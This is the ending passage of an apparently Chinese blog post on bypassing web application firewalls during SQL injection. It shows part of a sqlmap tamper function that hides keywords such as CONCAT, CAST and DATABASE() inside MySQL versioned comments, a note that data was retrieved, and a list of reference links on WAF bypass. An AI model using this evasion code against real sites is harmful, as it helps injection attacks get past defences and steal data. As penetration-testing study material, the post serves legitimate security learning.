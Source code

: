 ```
        payload=payload.replace("CONCAT","/*!12345CONCAT*/")
        payload=payload.replace("CAST(","/*!12345CAST(*/")
        payload=payload.replace("CASE","/*!12345CASE*/")
        payload=payload.replace("DATABASE()","database/**/()")
                
    return payload
```
可以成功获取到相关数据。
![image](/images/posts/sql-injection-fuck-waf/sqlmap2.png)
其他参考链接如下：  
```
http://www.anquan.us/search?keywords=bypass&content_search_by=by_bugs
http://drops.xmd5.com/static/drops/tips-7883.html
https://xianzhi.aliyun.com/forum/attachment/big_size/wafbypass_sql.pdf
http://drops.xmd5.com/static/drops/papers-4323.html  
https://www.cnblogs.com/xiaozi/p/6927348.html  
http://swende.se/blog/HTTPChunked.html#  
https://xz.aliyun.com/t/1239
http://www.sqlinjectionwiki.com/categories/2/mysql-sql-injection-cheat-sheet/  
https://mp.weixin.qq.com/s/S318-e4-eskfRG38HZk_Qw  
https://joychou.org/web/nginx-Lua-waf-general-bypass-method.html    #nginx lua waf  
https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF  
https://websec.ca/kb/sql_injection#MySQL_Comment_Out_Query  
https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423
```



转载请注明：[whynot](https://notwhy.github.io/) » [sql-injection-fuck-waf](https://notwhy.gitbooks.io/2018/06/sql-injection-fuck-waf/)  


